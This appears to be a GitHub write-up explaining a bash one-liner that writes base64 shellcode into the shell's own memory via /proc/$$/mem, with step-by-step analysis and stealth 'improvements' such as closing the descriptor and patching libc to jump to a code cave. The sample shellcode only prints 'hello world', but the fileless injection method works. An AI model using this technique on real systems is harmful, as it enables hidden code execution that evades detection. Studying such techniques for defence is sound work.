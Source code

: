 ### Bash shellcode injection oneliner

I saw this trick from David Buchanan twitter (https://twitter.com/David3141593)

![trick](./pics/trick.png)



so that's it:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
```

that's an interesting trick to inject a shellcode (encoded in base64 directly into the bash parent process memory)

It's an interesting trick because, you can inject a shellcode in another process, without creating another process, and without touching the disk of course, fileless.. that's not really new, but a clever trick

let's analyze it to see how it works (and after, improve it a bit...)

* #### first

  `cd /proc/$$;`

  well that actually goes in the /proc directory of the parent process, the `$$` symbol is bash symbol for parent process.

  The parent process is `bash` probably , or any shell you use. 

* #### second

  `read a<syscall`

  well, that's one read the `/proc/$$/syscall` entry into the variable `a`

  but what is `/proc/pid/syscall` ? (humm good question..)

![syscall](./pics/syscall.png)

On Ubuntu default security settings, you can not read another process `/proc/pid/syscall` entry, but as `read` is an internal bash command, it will work as it is bash reading his own `/proc/pid/syscall` entry

let's try it:

```bash
$ echo $$
1935387
$ read a</proc/$$/syscall
$ echo $a
0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992
$ cat /proc/1935387/maps
55917cfd6000-55917d005000 r--p 00000000 00:1b 1526224                    /usr/bin/bash
55917d005000-55917d0e4000 r-xp 0002f000 00:1b 1526224                    /usr/bin/bash
55917d0e4000-55917d11e000 r--p 0010e000 00:1b 1526224                    /usr/bin/bash
55917d11f000-55917d123000 r--p 00148000 00:1b 1526224                    /usr/bin/bash
55917d123000-55917d12c000 rw-p 0014c000 00:1b 1526224                    /usr/bin/bash
55917d12c000-55917d137000 rw-p 00000000 00:00 0 
55917dc8d000-55917de9e000 rw-p 00000000 00:00 0                          [heap]
7f8061f97000-7f8062aaf000 r--p 00000000 00:1b 2356892                    /usr/lib/locale/locale-archive
7f8062aaf000-7f8062ab2000 rw-p 00000000 00:00 0 
7f8062ab2000-7f8062ada000 r--p 00000000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ada000-7f8062c6f000 r-xp 00028000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062c6f000-7f8062cc7000 r--p 001bd000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062cc7000-7f8062ccb000 r--p 00214000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccb000-7f8062ccd000 rw-p 00218000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccd000-7f8062cda000 rw-p 00000000 00:00 0 
7f8062cda000-7f8062ce8000 r--p 00000000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062ce8000-7f8062cf9000 r-xp 0000e000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062cf9000-7f8062d07000 r--p 0001f000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d07000-7f8062d0b000 r--p 0002c000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d0b000-7f8062d0c000 rw-p 00030000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d3a000-7f8062d41000 r--s 00000000 00:1b 547276                     /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f8062d41000-7f8062d43000 rw-p 00000000 00:00 0 
7f8062d43000-7f8062d45000 r--p 00000000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d45000-7f8062d6f000 r-xp 00002000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d6f000-7f8062d7a000 r--p 0002c000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7b000-7f8062d7d000 r--p 00037000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7d000-7f8062d7f000 rw-p 00039000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fffcc912000-7fffcc934000 rw-p 00000000 00:00 0                          [stack]
7fffcc9f8000-7fffcc9fc000 r--p 00000000 00:00 0                          [vvar]
7fffcc9fc000-7fffcc9fe000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]

```

as you can see in the example above,

`/proc/pid/syscall` contains that string:

`0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992`

if we read manual above, it means last syscall was number 0 , it is `read()` syscall, with args:

* 0 --> filedescriptor (`rdi` register)
* 0x55917d134260  -->  address (`rsi` register)

* 0x1000 --> length  (`rdx` register)

then they are the 3 others arguments , that are not used by `read()` which take only 3 arguments,

then:

* 0x7fffcc931228 --> stack value
* 0x7f8062bc6992 --> address of the syscall



**Well what all this means?**

well it's probably the `read` syscall , of libc `read()` function, as we can see in the `/proc/pid/maps` output , that 0x7f8062bc6992 is mapped in libc at offset 0x114992 from libc's start. If we check in GDB we can confirm that it is the syscall from `__GI___libc_read+16` libc internal function:

![libc](/BIGRAID/backup/work.challenges/work/mon.github/docs/linux.tricks/Bash.shellcode.injection.oneliner/pics/libc.png)

`__GI___libc_read+18` is the address next to the sycall , that is return in `/proc/pid/syscall`, by read `read a<syscall`



* #### third

`exec 3>mem`

that is an internal command from bash too, let's see his manual:

this command open `/proc/$$/mem` for writing on filedescriptor 3.

so everything written to filedescriptor 3, will be written directly in bash process memory

![exec](/BIGRAID/backup/work.challenges/work/mon.github/docs/linux.tricks/Bash.shellcode.injection.oneliner/pics/exec.png)

*`exec` can be used in many other ways too, to change argv0 for example, but we will just concentrate on his usage on filedescriptors*



* #### fourth

```base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3```



ok , now that the filedescriptor 3 points to bash process memory, we can write into the process memory, we just need to seek into `/proc/$$/mem` to reach a known address, we will use the syscall address returned by `/proc/$$/syscall` that we stored before in `a` variable, to write directly into libc `__GI___libc_read()` function.. (yes, with `/proc/$$/mem` you can even write in non writable zone..like in libc exec zone)

we encode our shellcode in base64, and write it at this position, like this as soon as bash, will call `read()` libc function (which is quite often), it will execute our shellcode... but `read()` function will be pretty well destroyed for bash next calls to it.. 

our shellcode take over anyway..

* #### improvements

well that works, but even if you inject your shellcode directly in a process memory (bash in this case), even fileless, it leaves some supect traces... let's give it a try..

my example above inject a "hello world" shellcode, and goes in an endless loop, let's look at filedescriptors of the bash process after injection:

![](/BIGRAID/backup/work.challenges/work/mon.github/docs/linux.tricks/Bash.shellcode.injection.oneliner/pics/procfd.png)

well you see, that filedescriptor 3 is left open, and that's suspicious.

so first improvement is closing the fd just after writing:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3;exec 3>&-
```

by adding `exec 3>&-` we closed the filedescriptor after using it..


now there is the problem that bash is left unusable, as the shellcode basically "hijacked" the code execution...

as the `read a<syscall` give a pretty consistent return to a know offset in libc, what we can do is for example is patching at another place in libc.

for example, if you look at the `__GI___libc_read()` function disassembly above, you can see that at `__GI___libc_read+106` there is a `ret` followed by some `nop`instruction padding, for alignement process..

this ret is at offset +88, after the address return by `read a<syscall`, we can write to it like this for example:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`+88]>&3;exec 3>&-
```

so to ameliorate the method,

we could first write our shellcode to an unused place in libc in the executable zone (there are many code caves as they are called in libc) 

then do a second write to patch for example the `ret` and replace it with a `jmp` that will jump to our shellcode at the end of the function, and will return normally after..

like this bash will continue to function normally, and our shellcode will be called each time a `read()` is called by bash (which is pretty often off course...)

this is left as an exercise for the most motivated ;)

* #### Conclusion

It's a nice process injection method, totally invisible if done correctly..and you can do it only with a bash oneliner

